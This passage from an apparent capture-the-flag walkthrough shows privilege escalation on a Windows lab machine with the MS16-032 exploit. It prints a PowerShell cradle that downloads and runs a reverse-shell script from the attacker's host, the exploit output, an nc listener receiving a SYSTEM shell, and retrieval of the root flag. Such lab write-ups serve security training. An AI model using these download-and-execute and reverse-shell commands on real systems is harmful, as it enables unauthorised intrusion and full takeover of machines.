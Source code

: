 I’ll download a copy of that, and add a line at the end to call it with a command to download and execute my reverse shell:

```

Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.10/rev.ps1')"

```

From the 64-bit shell, (and with both a Python web server serving `rev.ps1` and `nc` listening on 443 to get the shell), I’ll use the same PowerShell cradle to download and execute the exploit:

```

PS C:\Users\kostas\Desktop> IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Invoke-MS16032.ps1')
     __ __ ___ ___   ___     ___ ___ ___ 
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|
                                        
                   [by b33f -> @FuzzySec]

[!] Holy handle leak Batman, we have a SYSTEM shell!!

```

There’s a request right away for `Invoke-MS16032.ps1`. Once that last message pops, there’s another request for `rev.ps1`, and then a shell at `nc`:

```

oxdf@parrot$ sudo nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49244
whoami
nt authority\system
PS C:\Users\kostas\Desktop>

```

And I can grab `root.txt`:

```

PS C:\users\administrator\desktop> type root.txt
51ed1b36************************

```